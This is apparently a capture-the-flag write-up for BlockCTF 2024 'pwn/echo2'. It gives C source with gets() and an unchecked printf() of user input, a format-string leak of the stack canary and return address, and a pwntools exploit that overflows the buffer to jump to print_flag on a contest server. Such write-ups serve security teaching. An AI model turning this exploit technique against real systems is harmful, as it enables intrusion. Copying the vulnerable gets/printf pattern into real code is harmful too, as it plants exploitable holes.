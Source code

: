 +++
title = 'BlockCTF 2024 - pwn/echo2'
date = 2024-11-17T22:52:37-05:00
draft = false
+++

We are given a binary with all protectoins turned on and c source code.

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>

void print_flag() {
    uint8_t flag_buffer[256] = {0};
    int fd = open("flag.txt", O_RDONLY);
    read(fd, flag_buffer, sizeof(flag_buffer));
    puts(flag_buffer);
    close(fd);
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    printf(echo_buffer);
    fflush(stdout);
}

int main(void) {
    while(1) {
        do_echo();
    }
    return 0;
}
```

There is a buffer overflow and printf vulnerability in do_echo(). We can set a breakpoint in do_echo() after printf and enter a format string to leak the canary and an address.

Sending our format string
```shell
%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx.%lx.%lx.%lx%lx.%lx
```
We leak out the stack
```shell
5555555592a1.0.7ffff7f8b8e055555555934b.0.2e786c252e786c25.252e786c25786c25.252e786c252e786c6c25786c252e786c.6c252e786c252e78.6c252e786c252e78.786c252e786c2578.786c252e786c252e2e786c25786c252e.2e786c252e786c25.25786c252e786c25.252e786c252e786c.252e786c252e786c6c252e786c25786c.6c252e786c252e78.786c25786c252e78.786c252e786c252e.786c252e786c252e2e786c252e786c25.2e786c252e786c25.252e786c25786c25.786c.00.0.0.0.00.0.0.0.07befa8536e8aba00.7fffffffe338.5555555555b5.5555555555a1.7ffff7dc9e087fffffffe260.7fffffffe338
```

`07befa8536e8aba00` at offset 39 looks like our canary and at offset 41 is the saved RIP. In gdb with the gef extenstoin, we can use the command 'canary' to print out the canary and confirm that we have the right one. Similarly we can use 'info frame' to see that we have the right RIP.

The saved RIP address is main+20. We can calculate the offset between this andress and the start of the print_flag fucntion, which is 908. Putting it all together:

```python
from pwn import *

target = remote("54.85.45.101", 8009)

# leak canary
payload = "%39$lx"
target.sendline(payload)
canary = int(target.recv(16),16)
log.info(hex(canary))

# leak RIP
payload = "%41$lx"
target.sendline(payload)
rip = int(target.recv(12),16)
log.info(hex(rip))

# offset from leak to print_flag = 908
payload = b"A" * 264 + p64(canary) + p64(0xdeadbeef) + p64(rip - 908)
target.sendline(payload)
target.interactive()
```

flag{aslr_and_canari3s_are_n0_match_f0r_l3aky_stacks}